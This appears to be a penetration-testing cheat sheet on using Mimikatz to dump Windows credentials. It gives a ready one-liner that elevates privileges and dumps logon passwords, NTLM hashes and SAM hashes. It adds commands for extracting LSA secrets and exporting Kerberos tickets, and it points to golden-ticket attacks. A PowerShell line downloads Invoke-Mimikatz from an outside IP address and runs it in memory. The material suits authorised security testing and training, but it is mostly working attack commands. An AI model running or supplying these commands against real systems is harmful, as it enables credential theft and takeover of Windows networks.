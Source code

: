 # Mimikatz

Can build from here [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

* After unzipping run mimikatz.exe on cmd
* one-liner:

```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

* `privilege::debug` should result

<figure><img src="../../../.gitbook/assets/Mimikatz-1 (1).png" alt=""><figcaption></figcaption></figure>

* `sekurlsa::logonpasswords` or `sekurlsa::msv` gives ntlm hashes for passwords which can be passed around and also cleartext passwords sometimes
* `lsadump::lsa /inject` to get lsa passwords
* `lsadump::sam` or `lsadump::sam /patch` to dump SAM hashes
* To dump lsa secrets: `lsadump::secrets`
* `lsadump::lsa /patch` dumps local security authority logon sessions

<figure><img src="../../../.gitbook/assets/Mimikatz-2.png" alt=""><figcaption></figcaption></figure>

* To get tickets `sekurlsa::tickets /export`
* DPAPI: `Invoke-Mimikatz -Command '"vault::list"'`
* ntds.dit file can be downloaded too
* [golden-ticket-attacks.md](../../active-directory/ad-exploitation/golden-ticket-attacks.md "mention") are also possible

## Powershell

Use [Nishang Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)

```
iex (iwr -UseBasicParsing http://10.11.103.226/Invoke-Mimikatz.ps1)
```

Do this

```
Invoke-Mimikatz -Command '"token::elevate"'
```
